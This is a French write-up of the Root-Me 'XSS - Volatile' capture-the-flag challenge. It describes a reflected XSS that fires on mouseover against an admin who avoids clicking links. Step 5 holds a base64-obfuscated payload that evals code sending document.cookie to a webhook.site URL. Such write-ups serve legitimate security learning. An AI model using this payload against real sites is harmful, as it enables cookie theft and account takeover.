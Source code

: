 ```yaml
---
title: 'XSS - Volatile'
description: "Exploitation d'une XSS réfléchie avancée avec événement mouseover"
pubDate: 'Jul 1 2025'
heroImage: '/src/assets/root_me/rootme14-0.png'
---
```


## 13. XSS - Volatile

**Objectif :** Voler le cookie de l'administrateur (administrateur sensibilisé à la sécurité)  
**Méthode :** XSS réfléchie via événement mouseover et exfiltration par webhook  
**Outils utilisés :** Webhook.site / injection de code / événements HTML  
**Temps :** 1h30  


### Solution

Exploitation d'une XSS réfléchie complexe sur un administrateur prudent qui ne clique pas sur les liens suspects.

![Challenge XSS Volatile](/src/assets/root_me/rootme14-0.png)

**Étapes :**
1. Identifier le point de contact avec l'admin : signalement de pages inexistantes
2. Comprendre que l'admin ne cliquera pas sur les liens
3. Utiliser l'événement `mouseover` au lieu du clic
4. Encoder le payload en base64 pour éviter la détection
5. Injecter le payload :
   ```html
   <a href='?p=' onmouseover=eval(atob('bmV3IEltYWdlKCkuc3JjPSJodHRwczovL3dlYmhvb2suc2l0ZS9jYWE4NmEyMy03MmU1LTQ4N2MtYTk5ZC0wOWIwMjNiZjEwOTM/Y29va2llPSIrZG9jdW1lbnQuY29va2ll')) href=''>...</a>
   ```
6. Le simple survol déclenche l'exfiltration du cookie
7. Récupérer le cookie admin sur le webhook

![Challenge XSS Volatile](/src/assets/root_me/rootme14-1.png)

![Challenge XSS Volatile](/src/assets/root_me/rootme14-2.png)

![Challenge XSS Volatile](/src/assets/root_me/rootme14-3.png)

![Challenge XSS Volatile](/src/assets/root_me/rootme14-4.png)

![Challenge XSS Volatile](/src/assets/root_me/rootme14-5.png)
